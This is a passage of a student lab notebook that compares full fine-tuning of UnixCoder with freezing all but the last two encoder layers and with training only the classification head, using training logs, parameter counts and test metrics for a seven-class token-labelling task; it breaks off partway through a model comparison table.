

In [61]:
# --- Plot per-class F1 scores for UnixCoder ---
plot_per_class_f1(
    unix_results['per_class_f1'],
    "UnixCoder",
    save_path=save_dir,
)
plot_confusion_matrix(
    unix_results['predictions'],
    unix_results['labels'],
    id2label,
    "UnixCoder",
    normalize=True,
    save_path=save_dir,
)


### 3.4 Frozen Layer Experiment

**Instructions:**
- Select the best fully fine-tuned pre-trained model using validation macro F1.
- Fine-tune only its last 2 encoding layers and classification head.
- Compare training speed, parameter count, and performance loss against full fine-tuning.

The backbone is selected automatically from BERT and UnixCoder using validation
data only. No test-set metric is used for this decision.

**Q:** How does freezing layers affect training efficiency and final performance?

The selected backbone is **UnixCoder**, which has the highest validation macro F1 among the full models. When only the last two encoder layers and the classification head are trained, the number of trainable parameters drops to **14,181,127**, equal to **11.31%** of the model. Since fewer parameters are trainable, the learning rate was increased with respect to full UnixCoder fine-tuning: from backbone/head learning rates **0.00002/0.00010** to **0.00005/0.00025**. Training time decreases from **686.5 s** for full UnixCoder fine-tuning to **349.0 s**, roughly half the time. The cost is a performance drop: test macro F1 decreases from **73.50%** to **64.85%**, accuracy from **87.10%** to **83.89%**, and session fidelity from **86.29%** to **83.05%**. Freezing is therefore useful for efficiency, but it loses a non-negligible amount of balanced performance.


In [62]:
# --- Select the best full model, then build Last2+Head variants ---
full_finetuned_candidates = {
    'BERT Pretrained': {
        'model_id': BERT_MODEL,
        'tokenizer': bert_tokenizer,
        'train_loader': bert_train_dataloader,
        'validation_loader': bert_eval_dataloader,
        'test_loader': bert_test_dataloader,
        'validation_macro_f1': bert_best_entry['val_macro_f1'],
        'class_weights': None,
        'loss_name': 'standard',
    },
    'UnixCoder': {
        'model_id': UNIXCODER_MODEL,
        'tokenizer': unixcoder_tokenizer,
        'train_loader': unix_train_dataloader,
        'validation_loader': unix_eval_dataloader,
        'test_loader': unix_test_dataloader,
        'validation_macro_f1': unix_best_entry['val_macro_f1'],
        'class_weights': unix_best_entry['class_weights'],
        'loss_name': unix_best_entry['loss_name'],
    },
}

best_full_model_name = max(
    full_finetuned_candidates,
    key=lambda name: (
        full_finetuned_candidates[name]['validation_macro_f1'],
    ),
)
best_full_config = full_finetuned_candidates[best_full_model_name]
best_full_model_id = best_full_config['model_id']
best_full_tokenizer = best_full_config['tokenizer']
best_full_train_dataloader = best_full_config['train_loader']
best_full_eval_dataloader = best_full_config['validation_loader']
best_full_test_dataloader = best_full_config['test_loader']
best_full_class_weights = best_full_config['class_weights']
best_full_loss_name = best_full_config['loss_name']


def build_last2_head_model():
    model = AutoModelForTokenClassification.from_pretrained(
        best_full_model_id,
        id2label=id2label,
        label2id=label2id,
    )
    for parameter in model.parameters():
        parameter.requires_grad = False
    for parameter in model.base_model.encoder.layer[-2:].parameters():
        parameter.requires_grad = True
    for parameter in model.classifier.parameters():
        parameter.requires_grad = True
    return model


frozen_preview_model = build_last2_head_model()
total_params = sum(
    parameter.numel() for parameter in frozen_preview_model.parameters()
)
trainable_params = sum(
    parameter.numel()
    for parameter in frozen_preview_model.parameters()
    if parameter.requires_grad
)

print(
    f"Best full model for freezing experiments: {best_full_model_name} "
    f"(validation macro F1={best_full_config['validation_macro_f1']:.4f}, "
    f"loss={best_full_loss_name})"
)
print(f"  Total parameters: {total_params:,}")
print(f"  Trainable parameters (Last2+Head): {trainable_params:,}")
print(f"  Trainable ratio: {100 * trainable_params / total_params:.2f}%")


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Best full model for freezing experiments: UnixCoder (validation macro F1=0.7988, loss=standard)
  Total parameters: 125,344,519
  Trainable parameters (Last2+Head): 14,181,127
  Trainable ratio: 11.31%


In [63]:
# --- Show which layers are trainable in the selected frozen backbone ---
print("Trainable layers:")
for name, param in frozen_preview_model.named_parameters():
    if param.requires_grad:
        print(f"  {name}")


Trainable layers:
  roberta.encoder.layer.10.attention.self.query.weight
  roberta.encoder.layer.10.attention.self.query.bias
  roberta.encoder.layer.10.attention.self.key.weight
  roberta.encoder.layer.10.attention.self.key.bias
  roberta.encoder.layer.10.attention.self.value.weight
  roberta.encoder.layer.10.attention.self.value.bias
  roberta.encoder.layer.10.attention.output.dense.weight
  roberta.encoder.layer.10.attention.output.dense.bias
  roberta.encoder.layer.10.attention.output.LayerNorm.weight
  roberta.encoder.layer.10.attention.output.LayerNorm.bias
  roberta.encoder.layer.10.intermediate.dense.weight
  roberta.encoder.layer.10.intermediate.dense.bias
  roberta.encoder.layer.10.output.dense.weight
  roberta.encoder.layer.10.output.dense.bias
  roberta.encoder.layer.10.output.LayerNorm.weight
  roberta.encoder.layer.10.output.LayerNorm.bias
  roberta.encoder.layer.11.attention.self.query.weight
  roberta.encoder.layer.11.attention.self.query.bias
  roberta.encoder.layer.11

In [64]:
# --- Fixed configuration for Last2+Head ---
# These learning rates were selected in the completed exploratory run.
FROZEN_LR = 5e-5
FROZEN_HEAD_LR = 2.5e-4
FROZEN_EPOCHS = 40

print("Last2+Head fixed training configuration:")
print(f"  Backbone learning rate: {FROZEN_LR:.5f}")
print(f"  Classification-head learning rate: {FROZEN_HEAD_LR:.5f}")
print(f"  Maximum epochs: {FROZEN_EPOCHS}")


Last2+Head fixed training configuration:
  Backbone learning rate: 0.00005
  Classification-head learning rate: 0.00025
  Maximum epochs: 40


In [65]:
# --- Train Last2+Head with the fixed configuration ---
del frozen_preview_model
if torch.cuda.is_available():
    torch.cuda.empty_cache()

set_reproducible_seed(SEED)
frozen_model = build_last2_head_model()
frozen_optimizer = build_layerwise_optimizer(
    frozen_model,
    backbone_lr=FROZEN_LR,
    head_lr_multiplier=FROZEN_HEAD_LR / FROZEN_LR,
    weight_decay=0.01,
)
frozen_training_steps = FROZEN_EPOCHS * len(best_full_train_dataloader)
frozen_scheduler = get_scheduler(
    "linear",
    optimizer=frozen_optimizer,
    num_warmup_steps=int(round(0.1 * frozen_training_steps)),
    num_training_steps=frozen_training_steps,
)

(
    frozen_best_model,
    frozen_train_losses,
    frozen_val_losses,
    frozen_val_f1_scores,
    frozen_val_accuracies,
    frozen_best_epoch,
    frozen_time,
) = train_model(
    model=frozen_model,
    train_dataloader=best_full_train_dataloader,
    eval_dataloader=best_full_eval_dataloader,
    optimizer=frozen_optimizer,
    lr_scheduler=frozen_scheduler,
    n_epochs=FROZEN_EPOCHS,
    device=device,
    id2label=id2label,
    model_name=f"{best_full_model_name} Frozen (Last2+Head)",
    class_weights=best_full_class_weights,
)

# Preserve the compact summary consumed by the final comparison table.
frozen_best_entry = {
    'best_model': frozen_best_model,
    'learning_rate': FROZEN_LR,
    'head_learning_rate': FROZEN_HEAD_LR,
    'epochs': FROZEN_EPOCHS,
    'epochs_ran': len(frozen_train_losses),
    'best_epoch': frozen_best_epoch,
    'val_macro_f1': float(frozen_val_f1_scores[frozen_best_epoch]),
    'val_accuracy': float(frozen_val_accuracies[frozen_best_epoch]),
    'val_loss': float(frozen_val_losses[frozen_best_epoch]),
    'train_time': frozen_time,
}

print(
    f"Last2+Head completed -> backbone_lr={FROZEN_LR:.5f}, "
    f"head_lr={FROZEN_HEAD_LR:.5f}, "
    f"checkpoint_epoch={frozen_best_epoch + 1}"
)
print(f"Training time: {frozen_time:.1f}s")


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Training UnixCoder Frozen (Last2+Head):   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 01/40 | train_loss=2.0113 | val_loss=1.3779 | val_macro_f1=0.1547 | val_accuracy=0.5255
Epoch 02/40 | train_loss=1.3749 | val_loss=0.8504 | val_macro_f1=0.2808 | val_accuracy=0.6585
Epoch 03/40 | train_loss=0.9948 | val_loss=0.6975 | val_macro_f1=0.3067 | val_accuracy=0.6952
Epoch 04/40 | train_loss=0.7587 | val_loss=0.6045 | val_macro_f1=0.3488 | val_accuracy=0.7109
Epoch 05/40 | train_loss=0.5829 | val_loss=0.4907 | val_macro_f1=0.4533 | val_accuracy=0.7695
Epoch 06/40 | train_loss=0.4973 | val_loss=0.4842 | val_macro_f1=0.4127 | val_accuracy=0.7911
Epoch 07/40 | train_loss=0.4337 | val_loss=0.4268 | val_macro_f1=0.5090 | val_accuracy=0.8112
Epoch 08/40 | train_loss=0.3731 | val_loss=0.4709 | val_macro_f1=0.5373 | val_accuracy=0.7961
Epoch 09/40 | train_loss=0.3076 | val_loss=0.3759 | val_macro_f1=0.6054 | val_accuracy=0.8530
Epoch 10/40 | train_loss=0.2640 | val_loss=0.3865 | val_macro_f1=0.6355 | val_accuracy=0.8500
Epoch 11/40 | train_loss=0.2526 | val_loss=0.3784 | val_macr

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(last2+head)_losses.png




In [66]:
# --- Plot Last2+Head training behavior ---
frozen_model_label = f"{best_full_model_name} Frozen (Last2+Head)"
plot_training_stats(
    frozen_model_label,
    frozen_train_losses,
    frozen_val_losses,
    frozen_best_epoch,
    save_path=save_dir,
)


In [67]:
# --- Evaluate the selected Last2+Head model on the test set ---
frozen_results = evaluate_model(
    model=frozen_best_model,
    test_dataloader=best_full_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name=frozen_model_label,
)


Evaluating UnixCoder Frozen (Last2+Head):   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Frozen (Last2+Head) Test Results:
Token Accuracy:   83.89%
Token Precision:  75.36%
Token Recall:     61.11%
Token F1 (Macro):  64.85%
Session Fidelity:  83.05%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(last2+head)_per_class_f1.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(last2+head)_confusion_matrix_normalized.png




In [68]:
# --- Plot per-class F1 scores for Last2+Head ---
plot_per_class_f1(
    frozen_results['per_class_f1'],
    frozen_model_label,
    save_path=save_dir,
)
plot_confusion_matrix(
    frozen_results['predictions'],
    frozen_results['labels'],
    id2label,
    frozen_model_label,
    normalize=True,
    save_path=save_dir,
)

### 3.5 Frozen Encoder — Classification Head Only

**Configuration:** all encoder parameters of the best fully fine-tuned model are frozen; only the classification head is trained.

**Q:** How many parameters are trained? Is training faster? How much performance is lost compared with full fine-tuning and Last2+Head?

With the encoder fully frozen, only **5,383 parameters** are trainable, corresponding to **0.0043%** of UnixCoder. This scenario requires an even larger learning rate for the randomly initialized head, so the fixed head-only configuration uses **0.001**. It is the fastest configuration, taking **285.9 s**, but it also produces the largest loss in performance. The Head Only model obtains **76.98% accuracy**, **52.57% macro F1**, and **76.34% session fidelity**. Compared with full UnixCoder, it loses **20.93 macro-F1 points**; compared with Last2+Head, it loses **12.28 macro-F1 points**. This shows that the pre-trained representation is useful, but the task still requires adapting part of the encoder, not only the final linear classifier.


In [69]:
# --- Build a model with only the classification head trainable ---
def build_head_only_model():
    model = AutoModelForTokenClassification.from_pretrained(
        best_full_model_id,
        id2label=id2label,
        label2id=label2id,
    )
    for parameter in model.parameters():
        parameter.requires_grad = False
    for parameter in model.classifier.parameters():
        parameter.requires_grad = True
    return model


headonly_preview_model = build_head_only_model()
total_params = sum(
    parameter.numel() for parameter in headonly_preview_model.parameters()
)
trainable_params = sum(
    parameter.numel()
    for parameter in headonly_preview_model.parameters()
    if parameter.requires_grad
)

print(f"{best_full_model_name} Frozen (Head Only):")
print(f"  Total parameters: {total_params:,}")
print(f"  Trainable parameters: {trainable_params:,}")
print(f"  Trainable ratio: {100 * trainable_params / total_params:.4f}%")

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


UnixCoder Frozen (Head Only):
  Total parameters: 125,344,519
  Trainable parameters: 5,383
  Trainable ratio: 0.0043%


In [70]:
# --- Which layers are trainable? ---
print("Trainable layers (head only):")
for name, param in headonly_preview_model.named_parameters():
    if param.requires_grad:
        print(f"  {name}  →  {param.numel():,} params")

Trainable layers (head only):
  classifier.weight  →  5,376 params
  classifier.bias  →  7 params


In [71]:
# --- Train Head Only with the fixed configuration ---
del headonly_preview_model
if torch.cuda.is_available():
    torch.cuda.empty_cache()

HEADONLY_LR = 1e-3
HEADONLY_EPOCHS = 40

set_reproducible_seed(SEED)
headonly_model = build_head_only_model()
headonly_optimizer = build_layerwise_optimizer(
    headonly_model,
    backbone_lr=HEADONLY_LR,
    head_lr_multiplier=1.0,
    weight_decay=0.01,
)
headonly_training_steps = HEADONLY_EPOCHS * len(best_full_train_dataloader)
headonly_scheduler = get_scheduler(
    "linear",
    optimizer=headonly_optimizer,
    num_warmup_steps=int(round(0.1 * headonly_training_steps)),
    num_training_steps=headonly_training_steps,
)

(
    headonly_best_model,
    headonly_train_losses,
    headonly_val_losses,
    headonly_val_f1_scores,
    headonly_val_accuracies,
    headonly_best_epoch,
    headonly_time,
) = train_model(
    model=headonly_model,
    train_dataloader=best_full_train_dataloader,
    eval_dataloader=best_full_eval_dataloader,
    optimizer=headonly_optimizer,
    lr_scheduler=headonly_scheduler,
    n_epochs=HEADONLY_EPOCHS,
    device=device,
    id2label=id2label,
    model_name=f"{best_full_model_name} Frozen (Head Only)",
    class_weights=best_full_class_weights,
)

# Preserve the compact summary consumed by the final comparison table.
headonly_best_entry = {
    'best_model': headonly_best_model,
    'learning_rate': HEADONLY_LR,
    'head_learning_rate': HEADONLY_LR,
    'epochs': HEADONLY_EPOCHS,
    'epochs_ran': len(headonly_train_losses),
    'best_epoch': headonly_best_epoch,
    'val_macro_f1': float(headonly_val_f1_scores[headonly_best_epoch]),
    'val_accuracy': float(headonly_val_accuracies[headonly_best_epoch]),
    'val_loss': float(headonly_val_losses[headonly_best_epoch]),
    'train_time': headonly_time,
}

print(
    f"Head Only completed -> lr={HEADONLY_LR:.4f}, "
    f"checkpoint_epoch={headonly_best_epoch + 1}"
)
print(f"Training time: {headonly_time:.1f}s")

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Training UnixCoder Frozen (Head Only):   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 01/40 | train_loss=2.1531 | val_loss=1.6464 | val_macro_f1=0.1329 | val_accuracy=0.3188
Epoch 02/40 | train_loss=1.5037 | val_loss=0.9332 | val_macro_f1=0.2407 | val_accuracy=0.6585
Epoch 03/40 | train_loss=1.0549 | val_loss=0.7112 | val_macro_f1=0.3026 | val_accuracy=0.7019
Epoch 04/40 | train_loss=0.8000 | val_loss=0.6385 | val_macro_f1=0.4106 | val_accuracy=0.7265
Epoch 05/40 | train_loss=0.6583 | val_loss=0.5514 | val_macro_f1=0.4607 | val_accuracy=0.7537
Epoch 06/40 | train_loss=0.5871 | val_loss=0.4994 | val_macro_f1=0.4928 | val_accuracy=0.7738
Epoch 07/40 | train_loss=0.5269 | val_loss=0.5042 | val_macro_f1=0.4853 | val_accuracy=0.7748
Epoch 08/40 | train_loss=0.5186 | val_loss=0.4725 | val_macro_f1=0.5218 | val_accuracy=0.7846
Epoch 09/40 | train_loss=0.4746 | val_loss=0.4546 | val_macro_f1=0.5453 | val_accuracy=0.8030
Epoch 10/40 | train_loss=0.4550 | val_loss=0.4613 | val_macro_f1=0.5664 | val_accuracy=0.8014
Epoch 11/40 | train_loss=0.4429 | val_loss=0.4585 | val_macr

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(head_only)_losses.png




In [72]:
# --- Plot Head Only training behavior ---
headonly_model_label = f"{best_full_model_name} Frozen (Head Only)"
plot_training_stats(
    headonly_model_label,
    headonly_train_losses,
    headonly_val_losses,
    headonly_best_epoch,
    save_path=save_dir,
)

In [73]:
# --- Evaluate the selected Head Only model on the test set ---
headonly_results = evaluate_model(
    model=headonly_best_model,
    test_dataloader=best_full_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name=headonly_model_label,
)

Evaluating UnixCoder Frozen (Head Only):   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Frozen (Head Only) Test Results:
Token Accuracy:   76.98%
Token Precision:  68.13%
Token Recall:     48.50%
Token F1 (Macro):  52.57%
Session Fidelity:  76.34%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(head_only)_per_class_f1.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_frozen_(head_only)_confusion_matrix_normalized.png




In [74]:
# --- Plot per-class F1 scores for Head Only ---
plot_per_class_f1(
    headonly_results['per_class_f1'],
    headonly_model_label,
    save_path=save_dir,
)
plot_confusion_matrix(
    headonly_results['predictions'],
    headonly_results['labels'],
    id2label,
    headonly_model_label,
    normalize=True,
    save_path=save_dir,
)

### 3.6 Compare models

In [75]:
# --- Compare all models ---
print("\n" + "=" * 110)
print("MODEL COMPARISON SUMMARY")
print("=" * 110)

model_labels = [
    'BERT Pretrained',
    'Naked BERT',
    'UnixCoder',
    frozen_model_label,
    headonly_model_label,
]
model_objects = [
    bert_best_model,
    naked_bert_best_model,
    unix_best_model,
    frozen_best_model,
    headonly_best_model,
]

performance_data = {
    'Model': model_labels,
    'Accuracy': [
        bert_results['metrics']['token_accuracy'] * 100,
        naked_bert_results['metrics']['token_accuracy'] * 100,
        unix_results['metrics']['token_accuracy'] * 100,
        frozen_results['metrics']['token_accuracy'] * 100,
        headonly_results['metrics']['token_accuracy'] * 100,
    ],
    'Macro Precision': [
        bert_results['metrics']['token_precision'] * 100,
        naked_bert_results['metrics']['token_precision'] * 100,
        unix_results['metrics']['token_precision'] * 100,
        frozen_results['metrics']['token_precision'] * 100,
        headonly_results['metrics']['token_precision'] * 100,
    ],
    'Macro Recall': [
